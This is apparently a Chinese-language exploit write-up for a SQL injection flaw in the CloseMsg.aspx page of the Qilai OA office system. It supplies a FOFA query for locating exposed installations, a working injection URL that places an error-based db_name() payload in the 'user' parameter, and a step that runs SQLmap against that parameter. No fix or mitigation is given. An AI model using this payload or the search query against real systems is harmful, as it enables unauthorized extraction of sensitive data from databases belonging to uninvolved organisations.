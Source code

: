 # 启莱OA CloseMsg.aspx SQL注入漏洞

## 漏洞描述

启莱OA CloseMsg.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
启莱OA
```

## FOFA

```
app="启莱OA"
```

## 漏洞复现

登录页面如下

存在SQL注入的文件为 CloseMsg.aspx

```plain
http://xxx.xxx.xxx.xxx/client/CloseMsg.aspx?user=' and (select db_name())>0--&pwd=1
```

![qilai-3-1](./images/qilai-3-1.png)

使用SQLmap对参数 user 进行注入

![qilai-3-2](./images/qilai-3-2.png)
